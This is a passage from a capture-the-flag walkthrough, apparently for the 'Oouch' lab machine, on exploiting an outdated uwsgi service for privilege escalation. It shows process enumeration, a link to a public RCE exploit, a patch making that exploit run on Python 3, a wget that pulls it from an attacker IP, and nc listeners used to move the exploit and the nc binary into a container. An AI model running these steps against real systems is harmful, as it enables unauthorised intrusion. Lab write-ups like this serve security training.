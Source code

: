 `www-data` owns uwsgi.

### UWSGI exploitation

Let's check that uwsgi runs as www-data and is in a vulnerable version.

```
qtc@aeb4525789d8:~$ ps -ef | grep uwsgi
www-data    31     1  0 08:00 ?        00:00:05 uwsgi --ini uwsgi.ini --chmod-sock=666
www-data    32    31  0 08:00 ?        00:00:00 uwsgi --ini uwsgi.ini --chmod-sock=666
www-data    33    31  0 08:00 ?        00:00:00 uwsgi --ini uwsgi.ini --chmod-sock=666
www-data    34    31  0 08:00 ?        00:00:00 uwsgi --ini uwsgi.ini --chmod-sock=666
www-data    35    31  0 08:00 ?        00:00:00 uwsgi --ini uwsgi.ini --chmod-sock=666
www-data    36    31  0 08:00 ?        00:00:00 uwsgi --ini uwsgi.ini --chmod-sock=666
www-data    37    31  0 08:00 ?        00:00:01 uwsgi --ini uwsgi.ini --chmod-sock=666
www-data    38    31  0 08:00 ?        00:00:00 uwsgi --ini uwsgi.ini --chmod-sock=666
www-data    39    31  0 08:00 ?        00:00:01 uwsgi --ini uwsgi.ini --chmod-sock=666
www-data    40    31  0 08:00 ?        00:00:01 uwsgi --ini uwsgi.ini --chmod-sock=666
www-data    41    31  0 08:00 ?        00:00:01 uwsgi --ini uwsgi.ini --chmod-sock=666
qtc        140    90  0 22:06 pts/0    00:00:00 grep uwsgi
qtc@aeb4525789d8:~$ uwsgi --version
2.0.17.1
```

I found an RCE exploit on github: https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py

We need a quick patch, on line 18-19 in `sz()`, remove or comment the if statements.

```diff
def sz(x):
    s = hex(x if isinstance(x, int) else len(x))[2:].rjust(4, '0')
-   if sys.version_info[0] == 3: import bytes
+   #if sys.version_info[0] == 3: import bytes
-   s = bytes.fromhex(s) if sys.version_info[0] == 3 else s.decode('hex')
+   s = bytes.fromhex(s) #if sys.version_info[0] == 3 else s.decode('hex')
    return s[::-1]
```

Start a web server from you attacker machine.

On oouch machine retrieve the uwsgi exploit.

```
$ cd /tmp
$ wget http://10.10.15.142:8000/uwsgi_exp.py
```

Now we need to transfer then into the docker container but there aren't many binaries inside. So we will have to use a [GTFOBins tricks](https://gtfobins.github.io/gtfobins/bash/#file-download) with bash to download the file inside the container.

First start TCP socket on oouch machine.

```
$ nc -l -p 12345 < /tmp/uwsgi_exp.py
$ nc -l -p 12345 < /usr/bin/nc
```
